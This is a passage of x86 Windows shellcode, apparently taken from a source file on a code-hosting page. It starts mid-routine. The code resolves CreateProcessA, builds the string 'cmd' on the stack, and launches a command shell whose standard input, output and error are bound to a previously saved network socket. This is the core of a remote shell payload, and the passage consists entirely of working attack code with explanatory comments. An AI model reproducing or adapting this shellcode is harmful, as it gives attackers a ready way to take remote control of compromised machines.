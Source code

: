 ```c
PUSH 0x7365636f                      ;"seco"
PUSH 0x72506574                      ;"rPet"
PUSH 0x61657243                      ;"aerC"
PUSH ESP                             ;"CreateProcessA" - 2nd argument of GetProcAddress
MOV  EBP, ESI                        ;move the kernel32.dll to EBP
PUSH EBP                             ;kernel32.dll address - 1st argument of GetProcAddress
CALL EDX                             ;execute GetProcAddress
PUSH EAX                             ;address of CreateProcessA
LEA EBP, [EAX]                       ;EBP now points to the address of CreateProcessA

;call CreateProcessA
PUSH 0x61646d63                      ;"admc"
SUB  word [ESP + 0x3], 0x61          ;"dmc" ( remove a)
MOV  ECX, ESP                        ;ecx now points to "cmd" string
XOR  EDX, EDX                        ;zero out EDX
SUB  ESP, 16
MOV  EBX, esp                        ;pointer for ProcessInfo

;STARTUPINFOA struct
PUSH EDI                             ;hStdError  => saved socket
PUSH EDI                             ;hStdOutput => saved socket
PUSH EDI                             ;hStdInput  => saved socket
PUSH EDX                             ;lpReserved2 => NULL
PUSH EDX                             ;cbReserved2 => NULL
XOR  EAX, EAX                        ;zero out EAX register
INC  EAX                             ;EAX => 0x00000001
ROL  EAX, 8                          ;EAX => 0x00000100
PUSH EAX                             ;dwFlags => STARTF_USESTDHANDLES 0x00000100
PUSH EDX                             ;dwFillAttribute => NULL
PUSH EDX                             ;dwYCountChars => NULL
PUSH EDX                             ;dwXCountChars => NULL
PUSH EDX                             ;dwYSize => NULL
PUSH EDX                             ;dwXSize => NULL
PUSH EDX                             ;dwY => NULL
PUSH EDX                             ;dwX => NULL
PUSH EDX                             ;pTitle => NULL
PUSH EDX                             ;pDesktop => NULL
PUSH EDX                             ;pReserved => NULL
XOR  EAX, EAX                        ;zero out EAX
ADD  AL, 44                          ;cb => 0x44 (size of struct)
PUSH EAX                             ;eax points to STARTUPINFOA

;ProcessInfo struct
MOV  EAX, ESP                        ;pStartupInfo
PUSH EBX                             ;pProcessInfo
PUSH EAX                             ;pStartupInfo
PUSH EDX                             ;CurrentDirectory => NULL
PUSH EDX                             ;pEnvironment => NULL
PUSH EDX                             ;CreationFlags => 0
XOR  EAX, EAX                        ;zero out EAX register
INC  EAX                             ;EAX => 0x00000001
PUSH EAX                             ;InheritHandles => TRUE => 1
PUSH EDX                             ;pThreadAttributes => NULL
PUSH EDX                             ;pProcessAttributes => NULL
PUSH ECX                             ;pCommandLine => pointer to "cmd"
PUSH EDX                             ;ApplicationName => NULL
CALL EBP                             ;execute CreateProcessA
```
